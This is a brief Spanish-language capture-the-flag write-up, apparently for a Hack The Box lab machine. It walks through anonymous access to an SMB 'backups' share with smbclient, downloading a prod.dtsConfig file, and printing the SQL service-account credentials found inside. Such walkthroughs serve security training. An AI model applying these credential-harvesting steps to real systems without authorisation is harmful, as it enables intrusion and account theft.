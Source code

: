 ✅ Recurso útil: `backups`

## 📥 Acceso a backups y extracción de credenciales


Nos está pidiendo en la siguiente tarea, la contraseña del archivo de SMB:

![](../img/0d70256c064d04d6ed6f4ee33028658f.png)

Lo montaremos, buscaremos el archivo correspondiente, y lo descargaremos en nuestra máquina.

```bash
smbclient //10.129.116.211/backups -N
```

![](../img/940605540ac52d83ae3921e8971fe25b.png)

📦 Descargamos el archivo:

```bash
smb: \> get prod.dtsConfig
```

```bash
cat prod.dtsConfig
```

📌 **Credenciales encontradas**:

```bash
Password = M3g4c0rp123
USER ID  = ARCHETYPE\sql_svc
```

![](../img/19f3229f51ad8aa53e81712661dcd035.png)
